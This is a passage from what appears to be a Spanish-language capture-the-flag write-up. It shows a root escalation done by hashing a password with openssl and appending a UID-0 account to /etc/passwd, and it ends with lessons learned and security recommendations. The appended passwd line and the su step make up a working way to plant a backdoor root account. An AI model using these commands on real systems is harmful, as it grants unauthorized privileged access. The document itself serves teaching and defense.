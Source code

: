 **Nota** Como no tenemos ningun editor de terminar, Tendremos que crear un nuevo usuario en el sistema con privilegios de root:
Necesitaremos una cotrasena para este nuevo usuario ( 123456789 ):
```bash
openssl passwd 123456789

$1$iznhwVY8$1Yg1ZFulPDGLahK.R4Mjv0 # hash
```

Crearemos un nuevo usuario: **( privileged )** 
```bash
/home/pingu$ echo 'privilegeds:$1$iznhwVY8$1Yg1ZFulPDGLahK.R4Mjv0:0:0::/home/privilegeds:/bin/bash' >> /etc/passwd
```

Nos conectamos como este nuevo usuario y proporsionamos su contrasena: ( 123456789 )
```bash
su privilegeds
```
---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@874cd377c371:/root# whoami
root
```
---

## Lecciones Aprendidas
1. Usuario **Anonymous** del servicio **FTP** es una falla de seguridad critica
2. Cargamos archivos maliciosos conectados con la web
3. Explotacion de los siguientes bianrios: **( man, dpkg, chown )**

## Recomendaciones de Seguridad
- Deshabilitar al usuario **Anonymous**
- Restringir y validar la carga de archivos desde el servicio **FTP**